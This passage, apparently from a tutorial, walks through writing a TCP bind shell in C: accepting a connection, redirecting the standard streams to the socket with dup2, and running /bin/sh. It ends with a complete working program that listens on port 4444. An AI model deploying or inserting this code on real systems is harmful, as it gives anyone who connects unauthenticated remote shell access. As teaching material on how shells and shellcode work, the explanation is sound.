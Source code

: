 So our call becomes:
```c
int client_socket = accept(sockfd, NULL, NULL);
```
### Redirect output
In order to get input and send output, we need to redirect stdin, stdout, and stderr to the socket using dup2.
```c
int dup2(int oldfd, int newfd);
```
oldfd will be the client_socket that we accepted and newfd will refer to the integers that represet stdin (0), stdout (1), stderr (2).

Our code will be:
```c
dup2(client_socket, 0);
dup2(client_socket, 1);
dup2(client_socket, 2);
```

### Execute a shell
Now that everything is set up, we just need to execute the shell using execve:
```c
execve("/bin/sh", NULL, NULL);
```
### Putting it all together
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main() {
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in sock_addr;

    sock_addr.sin_family = AF_INET;
    sock_addr.sin_port = htons(4444);
    sock_addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));
    
    listen(sockfd, 0);
    
    int client_socket = accept(sockfd, NULL, NULL);
    
    dup2(client_socket, 0);
    dup2(client_socket, 1);
    dup2(client_socket, 2);
    
    execve("/bin/sh", NULL, NULL);
}
```
